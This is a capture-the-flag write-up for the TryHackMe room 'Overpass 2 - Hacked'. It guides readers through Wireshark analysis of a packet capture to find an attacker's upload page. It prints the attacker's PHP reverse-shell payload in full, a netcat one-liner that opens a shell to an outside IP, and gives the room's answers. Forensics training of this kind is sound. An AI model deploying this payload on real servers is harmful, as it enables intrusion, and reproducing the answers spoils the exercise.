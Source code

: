 # TryHackMe Room: Overpass 2 - Hacked

Link: [Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked)

## Overview

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at `shibes`, and managed to capture packets as the attack happened.

`Q: Can you work out how the attacker got in, and hacked your way back into Overpass' production server?`

> **Note:** Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing [CC: Pentesting](https://tryhackme.com/room/ccpentesting) and [Learn Linux](https://tryhackme.com/room/zthlinux) as a bare minimum.  

```
md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc
```

##  Task 1  Forensics - Analyse the PCAP 

First Download the Capture file from TryHackme Overpass 2 room there you will see the button named `Download Task File` Download it and after you download it open **Wireshark** which is preinstalled in Kali linux open it. When wireshark is open go to the File menu in the Toolbar there you will see the option name `Open` or you can just press `Ctrl + O` there you will prompt to open a file so open the file that you Download from tryhackme.

When you open the file then you will see all the packets that are captured during the attack so now let's start the analysis 

Q: What was the URL of the page they used to upload a reverse shell?

```
A: /development/
```

**Solution**

First, we have to filter our packets to http As there are so many packets there so we have to filter it so go to the filter bar you can see this after the Toolbar there write HTTP and press enter so then you will see all the packets that are related to http protocol

When your result is filtered locate the packet that is used to upload a file name "`upload.php`" You can see this in the info tab of the packets so there you will find the url the attacker uses to get the reverse shell. The attacker uses the POST method to that link to Upload its Payload to the server

Q: What payload did the attacker use to gain access?

**Hint: Include the PHP tags. Whole file content.**

```
A: <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
